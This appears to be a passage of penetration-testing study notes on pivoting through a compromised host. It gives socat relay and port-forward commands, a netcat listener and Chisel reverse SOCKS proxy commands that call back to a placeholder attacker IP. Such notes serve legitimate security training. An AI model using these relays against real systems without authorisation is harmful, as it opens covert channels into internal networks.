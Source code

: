 - `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.
- The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.

__Port Forwarding - Easy__

-  Example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward `./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

__Port Forwarding -- Quiet__

First of all, on our own attacking machine, we issue the following command:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &`

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

* * * 

## Pivoting - Chisel

Chisel is a tool that can be used to setup a tunnelled proxy or port forward through a comprimised system whether we have SSH access or not. It's written in Golang and can easily be compiled for any system. 

Before we are able to use chisel we have to download the appropriate binaries on the [release page](https://github.com/jpillora/chisel/releases).

We also have to have the proper copy of the chisel binary on both the attacker and the target.

Chisel has two modes: client and server. We can access them with `chisel client --help` or `chisel server --help`

__Reverse SOCKS Proxy with Chisel__

This connects back from a compromised server to a listener waiting on our attacking machine.

- On attacker: `./chisel server -p LISTEN_PORT --reverse &`
- On target: `./chisel client ATTACKER_IP:LISTEN_PORT R:port:socks &`

